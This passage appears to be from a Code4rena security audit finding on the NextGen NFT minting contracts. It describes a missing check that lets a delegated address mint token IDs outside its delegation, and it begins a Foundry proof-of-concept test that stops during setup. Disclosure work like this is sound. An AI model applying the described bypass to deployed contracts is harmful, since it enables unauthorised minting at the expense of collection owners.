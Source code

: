 However, when the `delAddress` calls [mint()](), there is no check to validate if it can mint other tokenIDs. As a result, `delAddress` can mint other tokenIDs too, bypassing its delegation rights. Similar check is lacking [here](https://github.com/code-423n4/2023-10-nextgen/blob/main/smart-contracts/MinterContract.sol#L333-L335) in `burnOrSwapExternalToMint()`.

## Proof of Concept
- Install foundry and run `forge init --no-git --force` from root folder (`2023-10-nextgen/`).
- Paste the following code inside a new file `2023-10-nextgen/test/t0x1cDelegateTokenId.t.sol`.
- Run via `forge test --mt test_t0x1cDelegateTokenId -vv`

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Test, console} from "forge-std/Test.sol";
import {DelegationManagementContract} from "../smart-contracts/NFTdelegation.sol";
import {randomPool} from "../smart-contracts/XRandoms.sol";
import {NextGenAdmins} from "../smart-contracts/NextGenAdmins.sol";
import {NextGenCore} from "../smart-contracts/NextGenCore.sol";
import {NextGenRandomizerNXT} from "../smart-contracts/RandomizerNXT.sol";
import {NextGenMinterContract} from "../smart-contracts/MinterContract.sol";

contract t0x1cDelegateTokenId is Test {
    address public addr1;
    address public delAddress;
    bytes32 public merkleRoot_delAddress;
    bytes32[] public _merkleProof_delAddress;
    string[] public _collectionScript;

    DelegationManagementContract hhDelegation;
    randomPool hhRandoms;
    NextGenAdmins hhAdmin;
    NextGenCore hhCore;
    NextGenRandomizerNXT hhRandomizer;
    NextGenMinterContract hhMinter;

    address constant ALL_COLLECTIONS = 0x8888888888888888888888888888888888888888;

    function setUp() public {
        addr1 = makeAddr("addr1");
        delAddress = makeAddr("delegatedAddress");

        merkleRoot_delAddress = 0xa7ba7fa301a6ea479bfc93bc5195f11092687ee4057cfb6444f5663245616526; // max allowance of 5
        _merkleProof_delAddress = new bytes32[](1);
        _merkleProof_delAddress[0] = 0x9200f00000000000000000000000000000000000000000000000000000000002;

        hhDelegation = new DelegationManagementContract();
        hhRandoms = new randomPool();
        hhAdmin = new NextGenAdmins();
        hhCore = new NextGenCore("Next Gen Core", "NEXTGEN", address(hhAdmin));

        // This example uses the NXT Randomizer
        hhRandomizer = new NextGenRandomizerNXT(address(hhRandoms), address(hhAdmin), address(hhCore));

        hhMinter = new NextGenMinterContract(address(hhCore), address(hhDelegation), address(hhAdmin));

        checkIfContractsAreDeployed();

        _collectionScript = new string[](1);
        _collectionScript[0] = "desc";
```